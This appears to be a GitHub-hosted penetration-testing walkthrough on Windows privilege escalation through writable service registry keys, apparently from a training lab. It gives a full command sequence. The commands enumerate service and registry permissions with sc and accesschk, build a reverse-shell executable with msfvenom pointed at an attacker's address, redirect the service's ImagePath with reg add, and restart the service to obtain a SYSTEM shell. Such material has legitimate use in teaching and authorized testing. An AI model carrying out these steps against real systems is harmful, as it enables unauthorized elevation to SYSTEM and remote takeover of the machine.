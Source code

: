 
### What is it?
When a Windows service is created, a registry key is added at:
```
KEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<ServiceName>
```
This key includes information like the **ImagePath** (the path to the executable the service runs).

If a user (other than an admin) has **write permissions** to this registry key, they can **modify the ImagePath** to point to a malicious executable — gaining elevated access when the service starts.

here you can see one service with details and ImagePath
<img width="892" height="352" alt="image" src="https://github.com/user-attachments/assets/f7c2a3b6-3443-49b2-bfe8-084102153111" />
## **Step-by-Step Exploitation Guide**

### **1. Find Vulnerable Service**
Run **WinPEAS** or **PowerUp.ps1** to find services with weak permissions:
<img width="903" height="71" alt="image" src="https://github.com/user-attachments/assets/0dd20912-e4b8-4a24-8e3e-40f062f16698" />
*(Example: Found service `regsvc`* 
### **2.** Check Registry Permissions
1. Query the "**regsvc**" 
```cmd
sc qc regsvc
```
we can see here the that it runs with SYSTEM privileges (SERVICE_START_NAME) 
![[Pasted image 20250828071448.png]]

2. Then Run this to check if you have read/write access to the registry key:
```bash
accesschk.exe /accepteula -uvwqk "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc"
```
Look for `W` write access for groups like:
- `Users`
- `Everyone`
- `NT AUTHORITY\INTERACTIVE` (means any logged-in user can modify it)
Then Check if you can start/stop the service:
```
accesschk.exe /accepteula -ucqv user regsvc
```
 **You need:**
- **`SERVICE_START`**
- **`SERVICE_STOP`**
### **3. Check Current ImagePath**
View the current executable path:
```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc"
```
Note the **`ImagePath`** value.
### **4. Create Malicious Payload**
Generate a reverse shell:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o evil.exe
```
Upload to victim machine (e.g., **`C:\Temp\evil.exe`**).
### **5. Modify the Registry**
Change the ImagePath to your payload:
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\evil.exe" /f
```
### **6. Trigger the Payload**
Restart the service:
```
net stop regsvc
net start regsvc
```
 **You should receive a SYSTEM shell!**